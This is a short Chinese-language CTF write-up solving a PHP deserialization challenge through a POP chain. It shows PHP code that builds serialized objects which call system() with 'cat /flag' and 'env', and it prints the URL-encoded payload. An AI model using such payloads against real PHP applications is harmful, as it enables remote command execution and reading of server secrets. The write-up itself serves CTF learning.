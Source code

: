 ## 垫刀之路06: pop base mini moe

在B类的`__invoke()`方法里，存在动态函数调用`$s($c);`

本地调试一下，可以执行命令

```php
<?php
$a = 'system';
$b = 'time';
# The current time is:  0:56:34.09
$a($b);
?>
```

把属性改成public生成payload，手动修改private属性的修饰符`%00`，以及private属性的长度

```php
<?php

class A {
    public $evil;
    public $a;
}

class B {
    public $b;
}
$payload = new A();
$payload -> a = new B();
$payload -> evil = "cat /flag";
$payload -> a -> b = "system";
echo serialize($payload);
# ?data=O:1:%22A%22:2:{s:7:%22%00A%00evil%22;s:3:%22env%22;s:4:%22%00A%00a%22;O:1:%22B%22:1:{s:4:%22%00B%00b%22;s:6:%22system%22;}}
?>
```

![16](/medias/moectf/16.png)
